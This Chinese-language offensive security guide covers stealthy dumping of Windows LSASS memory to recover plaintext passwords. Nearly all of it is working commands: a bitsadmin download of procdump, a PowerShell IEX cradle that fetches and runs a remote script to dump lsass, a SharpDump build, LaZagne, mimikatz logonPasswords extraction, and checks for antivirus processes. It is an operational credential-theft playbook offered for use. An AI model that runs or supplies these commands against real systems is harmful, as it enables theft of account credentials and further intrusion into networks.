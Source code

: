 # 免杀抓取明文

## 1、前提条件

必须已经事先拿到目标机器的管理权限,且看到有管理员的登录会话

```text
query user
```

![](../../.gitbook/assets/image%20%28435%29.png)

## 2、Prodump

直接指定 lsass.exe 进程名进行抓取即可,之后只需把生成的 lsass.dmp 文件拖回本地

```text
cd c:\Windows\Temp

bitsadmin /rawreturn /transfer getfile https://raw.githubusercontent.com/klionsec/CommonTools/master/procdump.exe c:\windows\temp\dump.exe

dump.exe -accepteula -ma lsass.exe lsass.dmp
```

![](../../.gitbook/assets/image%20%28440%29.png)

接着,再在本地用 mimikatz.exe 去加载读取即可\[版本保持一致\]

```text
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28441%29.png)

## 3、powershell

### 1、远程执行： 

只适用于 2008r2 之后的系统

```text
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/klionsec/CommonTools/master/Out-Minidump.ps1'); Get-Process lsass | Out-Minidump -DumpFilePath c:\windows\temp"

tasklist | findstr /c:"egui.exe" /c:"ekrn.exe"

dir c:\windows\Temp | findstr "lsass
```

![](../../.gitbook/assets/image%20%28439%29.png)

同样,之后只需把 lsass\_504.dmp 文件拖到本地机器再用 mimikatz.exe 加载读取即可

```text
mimikatz.exe "sekurlsa::minidump lsass_596.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28434%29.png)

### 2、本地执行

```text
powershell –exec bypass –Command "& {Import-Module 'C:\Tools\Out-Minidump.ps1'; Get-Process lsass | Out-Minidump -DumpFilePath c:\windows\temp}"
```

![](../../.gitbook/assets/image%20%28438%29.png)

PS: powershell 导 lsass.exe 进程数据差不多文件要比用 prodump 导的小 10M 左右

```text
mimikatz.exe "sekurlsa::minidump lsass_596.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28436%29.png)

## 4、sharpDump

项目地址：[https://github.com/GhostPack/SharpDump](https://github.com/GhostPack/SharpDump) 

将.sln用MSBuild编译成.exe     

```text
%SystemRoot%\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe E:\SharpDump-master\SharpDump.sln /t:Rebuild /p:Configuration=Release
```

![](../../.gitbook/assets/image%20%28431%29.png)

直接运行：

![](../../.gitbook/assets/image%20%28430%29.png)

需要线把 bin 重命名为 zip 后缀,然后正常解压出里面的 文件,再给 mimikatz 去读取即可

```text
mimikatz.exe "sekurlsa::minidump debug596" "sekurlsa::logonPasswords full" "exit"
```

![](../../.gitbook/assets/image%20%28432%29.png)

## 5、LaZagne\(python\)

项目地址：[https://github.com/AlessandroZ/LaZagne/releases](https://github.com/AlessandroZ/LaZagne/releases)

下载直接运行`lazgne.exe all`

![](../../.gitbook/assets/image%20%28443%29.png)

![](../../.gitbook/assets/image%20%28433%29.png)



